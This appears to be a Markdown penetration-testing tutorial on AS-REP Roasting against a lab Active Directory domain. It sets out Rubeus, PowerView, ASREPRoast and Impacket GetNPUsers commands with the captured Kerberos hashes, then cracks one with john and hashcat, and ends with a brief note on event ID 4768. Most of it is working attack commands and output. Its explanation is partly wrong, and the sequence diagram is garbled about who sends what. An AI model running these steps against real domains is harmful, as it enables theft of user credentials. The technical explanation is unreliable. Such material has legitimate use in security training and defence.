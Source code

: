 # AS-REP Roasting Attack

> Windows 2008 R2

## Introduction

AS-REP Roasting is an attack against authentication using the Kerberos protocol, with the aim of exploiting Kerberos vulnerabilities to obtain user credentials in the Active Directory.

Kerberos is a network authentication protocol used to securely verify users and services on computer networks. The Kerberos protocol uses tickets to verify user identity. In Active Directory, user credentials include a password hash and an AES key for KERBEROS.

AS-REP Roasting exploits a vulnerability in the Kerberos protocol, which allows attackers to collect AS-REP responses by sending invalid authentication requests (AS-REQ) in certain circumstances. The AS-REP response contains the user's encrypted AES key, **which attackers can use to crack the password hash and obtain user credentials**.

```mermaid
sequenceDiagram
    participant Attacker
    participant DomainController
    participant Victim

    Attacker ->> DomainController: Send invalid authentication request (AS-REQ)
    DomainController -->> Attacker: Send authentication error (KRB5KDC_ERR_PREAUTH_REQUIRED)
    Attacker ->> Victim: Send AS-REQ request, requesting no preauthentication
    Victim -->> Attacker: Send AS-REP response containing the user's encrypted AES key
    Attacker ->> DomainController: Attempt to crack password hash using the encrypted AES key
    DomainController -->> Attacker: Send password hash

```



## Environment Setup

If the domain user has the option "**Do not require Kerberos preauthentication**" set, **this option is typically not enabled by default**.

![image-20220701171152441](../../.gitbook/assets/image-20220701171152441.png)

![image-20220701172115379](../../.gitbook/assets/image-20220701172115379.png)



## 漏洞利用

### rubeus

To obtain a hash using Rubeus.exe

```css
Rubeus.exe asreproast
```

![image-20220701172146854](../../.gitbook/assets/image-20220701172146854.png)



### powershell

To find users in the domain who have "Do not require Kerberos preauthentication" 

```powershell
 Import-Module .\powerview.ps1
 Get-DomainUser -PreauthNotRequired
```

![image-20220701172830454](../../.gitbook/assets/image-20220701172830454.png)

To obtain the hash returned by AS-REP, use `ASREPRoast.ps1` in Markdown format.

```powershell
PS C:\> Get-ASREPHash -UserName hacker -Domain sectest.com
$krb5asrep$hacker@sectest.com:d0a157853391aab1e8e01bc686fb163a$809336bab609b5471e00dfd086ec87a1b2dcaa329c36753a0da5ecba
7c360e3aefb21c07a363139c9f0aeff96da09345137fc6b2a4320cec2be50a7a1f91548881c933f968657018c29fab4f7c370d48ad1bf4484164dfc
0435b1a6ca8313280d1b8c854da0e97191a35b94e2065020e2712b9ae9ed11b4be4c8d0d213c8dd8e462c1c2192b9e3904bc1ccea93e956cbcb442d
72d9e1fbacc81a261482e08a601c82b7927bc15e8ec2fd36725bc4d7a50a2a7519000896a7205ab87890584076a14c818f185ff206f2fb957324ec3
d591e2e623d1a14d5732fced962db9d5fcfae397c7bcb4ead5e5608
PS C:\>
PS C:\>
PS C:\> Get-ASREPHash -UserName administrator -Domain sectest.com
$krb5asrep$administrator@sectest.com:ba6badff514dd32e51a8375d59d3b4fd$4b19d25ec755b55a6c350740d6b7e91b3d980ae234ba5721b
d81177e0f5ad065a248dae0b9a2ca7968d8dd6238c1771c1376445296e8fc3c10ec1323b23bc76438b8ffff191e2da0961e47216caa5e3b3372d9d7
71bdf037c62c10ddbc9ed87cc4097539c14b74eea80b35ae0817953da40c0e8bf8fd12543db6753b0a4b0c007aa04090f7d0c88625ba4d200bba287
b98d6048544c35717d0571d6e121aebf613f240fbbd053d11f97aae1bf28473431addc504ce97d291a633f09a301d5e97c21220d2261de0beab1339
2512134d77ac292bf3af0adc3d864db4b9c8f0460754aab44c45863aa95e7a
PS C:\>
```



### impacket

User Brute-Forcing

```sh
┌──(root💀kali)-[~/Desktop/impacket-master/examples]
└─# python3 GetNPUsers.py sectest.com/ -usersfile /tmp/user.txt  
```

![image-20220701175412792](../../.gitbook/assets/image-20220701175412792.png)

Obtaining Ticket Information for a Specific User

```sh
┌──(root💀kali)-[~/Desktop/impacket-master/examples]
└─# python3 GetNPUsers.py sectest/administrator -no-pass -dc-ip 192.168.32.144 -request                                                                                                                                        
Impacket v0.10.1.dev1 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for administrator
$krb5asrep$23$administrator@SECTEST:7a5b7de0d5af4a66f5ee83a3eb48b726$e6c5ea6fb79ea8154a25f7ba4b0f12c265f7c2f10ef2591cba1ccdb1b42bc38f39dde177ac87da7dc9c66c90966afd12a7a131c817ce5f84b57312f5b846b5bc86a516a982ca438a6a4914d5c9220cbded7a5cf05ddf374f5cf3b3e735046e510bd688db79fde9ed15601e52d9991a21fc758b634df9932ace8839da67fbf36bbb670158005beac9a1b65806964f104accf99065edf74c80c113ced5fa13fb11a54e1eaf33f4ffbad561891d66917b4b728838b01e3469aed2c54f6c99c0aca879f24f92f8ccb703b69cd5bd9f6507a89be384297881d037550066a88a38d9bd7ad71b1006dc
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/Desktop/impacket-master/examples]
└─# python3 GetNPUsers.py sectest/hacker -no-pass -dc-ip 192.168.32.144 -request                                                                                                                                                  
Impacket v0.10.1.dev1 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for hacker
$krb5asrep$23$hacker@SECTEST:a7b9a372f2e3a0fa7568e860797ae62b$bd120f6279317280bf9e3b949cbac5b30bb3734926a9a13edd3dee5028b718541a938963f5279bac3f92c64eeb88c7255b3f2dac60106ac14abfe0bb4f43dbe7ec4e91a8ed7703049620e6e79bdb23451cf631694c27a9e88ee8433c0bda6bd1da67064d90d576e8bcecdef3fecb1ba14ac3c3acc4a35ca76bd34e4f7fee122378ed77f49b6ec452183f5b4462e03e565da49bd62227065c87b20293c5f2156a143e3b4a2902c8da7193131b7fa061426004dec87d6ddb0bc3fced9b3fd135aa0dbde8acdb76b45dd54e0f41db10792775cd0a6d98d35fbed53022fb6439aff534406491213b

```



# Hash Cracking

### john

```sh
┌──(root💀kali)-[/tmp]
└─# john --wordlist=password.txt hash.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
abcABC123        ($krb5asrep$23$hacker@SECTEST.COM)
1g 0:00:00:00 DONE (2022-07-01 05:58) 10.00g/s 701890p/s 701890c/s 701890C/s punkey..pinkk
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

### hashcat

```sh
┌──(root💀kali)-[/tmp]
└─# hashcat -a 0 -m 18200 hash.txt password.txt --force  
```

![image-20220701175918090](../../.gitbook/assets/image-20220701175918090.png)

## Log Analysis

Windows event ID 4768 is the event ID for the Kerberos authentication service, which is used to record events of Kerberos authentication requests. This event ID usually does not indicate an attack by itself, but if you notice an abnormal amount or unauthorized Kerberos authentication requests, it may indicate an attack.

![image-20230227143142069](../../.gitbook/assets/image-20230227143142069.png)

![image-20230301093355379](../../.gitbook/assets/image-20230301093355379.png)
